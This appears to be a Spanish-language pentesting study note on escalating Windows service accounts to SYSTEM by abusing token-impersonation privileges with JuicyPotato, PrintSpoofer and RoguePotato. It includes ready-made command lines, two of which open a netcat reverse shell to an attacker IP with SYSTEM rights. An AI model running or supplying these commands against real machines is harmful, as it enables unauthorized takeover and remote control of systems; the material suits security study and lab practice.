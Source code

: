 
## 🔑 Requisitos clave
- **SeImpersonatePrivilege**: permite suplantar el token de otro proceso.
- **SeAssignPrimaryTokenPrivilege**: permite asignar un token primario a un proceso.
- Estas capacidades se pueden usar para escalar de un servicio (como MSSQL o IIS) a **NT AUTHORITY\SYSTEM**.

## 🧪 Métodos de escalada utilizados

### 1. JuicyPotato

- **Funciona en**: versiones anteriores a Windows 10 1809 / Server 2019.
- **Requiere**: SeImpersonate o SeAssignPrimaryToken habilitado.
- **Técnica**: Abusa de DCOM/NTLM reflection para ejecutar comandos como SYSTEM.
- **Comando típico**:
```cmd	
JuicyPotato.exe -l <puerto> -p <programa> -a "<argumentos>" -t * 
```

Ejemplo:
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c nc.exe IP PUERTO -e cmd.exe" -t *
```

### 2. PrintSpoofer

- **Funciona en**: Windows 10 1809+ y Server 2019+ (donde JuicyPotato ya no sirve).
    
- **Requiere**: SeImpersonatePrivilege habilitado.
    
- **Técnica**: Abusa de privilegios de impresión y llamadas a `CreateProcessAsUser()` para obtener SYSTEM.
    
- **Comando típico**:

```cmd
PrintSpoofer.exe -c "nc.exe IP PUERTO -e cmd"
```

### 3. RoguePotato (mencionado brevemente)

- **Funciona en**: versiones modernas donde JuicyPotato no funciona.
    
- **Similar a**: JuicyPotato, pero con mejoras en la forma en que obtiene el token SYSTEM usando pipes anónimos y Named Pipe Impersonation.

## 📌 Consideraciones

- Estas técnicas suelen explotarse tras comprometer una aplicación que corre con permisos intermedios (como MSSQL o IIS).
    
- Siempre verificar los privilegios con `whoami /priv` antes de intentar la escalada.
    
- Elegir la herramienta correcta según la **versión del sistema operativo**.